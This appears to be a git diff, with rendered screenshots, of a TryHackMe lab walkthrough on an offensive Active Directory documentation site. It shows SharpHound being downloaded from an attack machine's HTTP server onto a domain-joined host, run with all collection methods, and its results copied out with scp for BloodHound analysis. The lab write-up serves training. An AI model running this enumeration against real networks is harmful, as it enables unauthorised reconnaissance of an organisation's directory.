

Before and after one commit to tymyrddin/red-ad, a Sphinx documentation site: the page built from source/docs/enum/bloodhound.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

```diff
--- a/source/docs/enum/bloodhound.md
+++ b/source/docs/enum/bloodhound.md
@@ -1 +1,79 @@
 # Through Bloodhound
+
+Bloodhound runs locally on an attacker's machine. The attacker must run a "collector" like sharphound on the target
+to enumerate domain information. After the collector finishes running, it will output a series of .json files for
+import into the Bloodhound interface.
+
+`ssh` into target machine using the credentials given:
+
+    ssh kenneth.davies@za.tryhackme.com@thmjmp1.za.tryhackme.com
+
+In the target machine terminal, switch to powershell:
+
+    za\kenneth.davies@THMJMP1 C:\Users\kenneth.davies\Documents>powershell
+    Windows PowerShell
+    Copyright (C) Microsoft Corporation. All rights reserved.
+
+Choose a directory to work from (I used `Documents`, and download the
+`SharpHound-v1.1.0.zip` from the http server on the attack machine:
+
+    PS C:\Users\kenneth.davies\Documents> Invoke-WebRequest http://10.50.16.168/SharpHound-v1.1.0.zip -OutFile SharpHound-v1.1.0.zip
+    PS C:\Users\kenneth.davies\Documents> dir
+
+    Mode                LastWriteTime         Length Name
+    ----                -------------         ------ ----
+    -a----       10/12/2022   2:48 PM        2138953 SharpHound-v1.1.0.zip
+
+Extract:
+
+    PS C:\Users\kenneth.davies\Documents> Expand-Archive SharpHound-v1.1.0.zip
+    PS C:\Users\kenneth.davies\Documents> dir
+    Directory: C:\Users\kenneth.davies\Documents
+
+    Mode                LastWriteTime         Length Name
+    ----                -------------         ------ ----
+    d-----       10/12/2022   2:49 PM                SharpHound-v1.1.0
+    -a----       10/12/2022   2:48 PM        2138953 SharpHound-v1.1.0.zip
+
+Enumerate:
+
+    PS C:\Users\kenneth.davies\Documents> cd SharpHound-v1.1.0
+
+    PS C:\Users\kenneth.davies\Documents\SharpHound-v1.1.0> .\SharpHound.exe --CollectionMethods All --Domain za.tryhackme.com --ExcludeDCs  2022-10-12T14:49:52.7476245+01:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
+    2022-10-12T14:49:53.2159956+01:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
+    ...
+    2121 name to SID mappings.
+     0 machine sid mappings.
+     2 sid to domain mappings.
+     0 global catalog mappings.
+    2022-10-12T14:50:42.7872718+01:00|INFORMATION|SharpHound Enumeration Completed at 2:50 PM on 10/12/2022! Happy Graphing!
+
+Check results:
+
+    PS C:\Users\kenneth.davies\Documents\SharpHound-v1.1.0> dir
+    Directory: C:\Users\kenneth.davies\Documents\SharpHound-v1.1.0
+
+    Mode                LastWriteTime         Length Name
+    ----                -------------         ------ ----
+    -a----       10/12/2022   2:50 PM         139831 20221012145038_BloodHound.zip
+    ...
+
+On the attack machine, use `ssh` to copy the bloodhound results over:
+
+    scp kenneth.davies@za.tryhackme.com@thmjmp1.za.tryhackme.com:C:/Users/kenneth.davies/Documents/SharpHound-v1.1.0/20221012145038_BloodHound.zip .
+
+Fire up `neo4j` and `bloodhound`:
+
+    sudo neo4j start
+    bloodhound &
+
+Drop the copied over results in the bloodhound window, and play around with options.
+
+| ![Bloodhound](../../_static/images/Screenshot from 2022-10-12 15-42-55.png)
+|:--:|
+| Start playing around and answer the questions. |
+
+* Use `Search for a node...` to find specific users, groups, etc.
+* Click on specific properties of an object to visualise it
+* Use the Analysis tab to run built-in queries
+* ...
```
Also changed, not shown: source/docs/breach/ntlm.md (+1 -1 lines), source/docs/enum/README.md (+7 -7 lines), source/docs/enum/cleanup.md (+1 -1 lines), source/docs/enum/setup.md (+9 -1 lines), source/index.rst (+7 -0 lines), source/_static/images/Screenshot from 2022-10-11 19-49-49.png, source/_static/images/Screenshot from 2022-10-11 19-51-19.png, source/_static/images/Screenshot from 2022-10-12 13-00-58.png, source/_static/images/Screenshot from 2022-10-12 13-03-19.png, source/_static/images/Screenshot from 2022-10-12 13-06-54.png (deleted), source/_static/images/Screenshot from 2022-10-12 13-41-40.png, source/_static/images/Screenshot from 2022-10-12 14-19-28.png, source/_static/images/Screenshot from 2022-10-12 15-42-55.png, source/_static/images/rdp-access.png (added).
